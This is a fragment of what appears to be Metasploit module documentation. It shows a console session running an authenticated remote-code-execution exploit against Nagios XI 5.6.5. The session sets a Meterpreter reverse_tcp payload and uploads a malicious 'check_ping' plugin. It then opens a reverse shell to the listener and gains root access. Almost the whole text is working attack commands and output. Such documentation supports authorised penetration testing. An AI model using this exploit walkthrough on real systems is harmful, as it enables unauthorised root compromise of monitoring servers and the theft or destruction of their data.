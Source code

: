 ```
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.25.132.121   yes       The listen address (an interface may be specified)
   LPORT  7712             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > exploit

[*] Started reverse TCP handler on 172.25.132.121:7712
[*] Executing automatic check (disable AutoCheck to override)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.5
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3012516 bytes) to 172.25.133.237
[*] Meterpreter session 1 opened (172.25.132.121:7712 -> 172.25.133.237:52646) at 2021-04-13 17:39:07 -0500
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > getuid
Server username: root @ test-Virtual-Machine (uid=0, gid=0, euid=0, egid=0)
meterpreter > pwd
/usr/local/nagiosxi/html/includes/components/profile
meterpreter > shell
Process 3747 created.
Channel 1 created.
uname -a
Linux test-Virtual-Machine 5.4.0-70-generic #78~18.04.1-Ubuntu SMP Sat Mar 20 14:10:07 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```
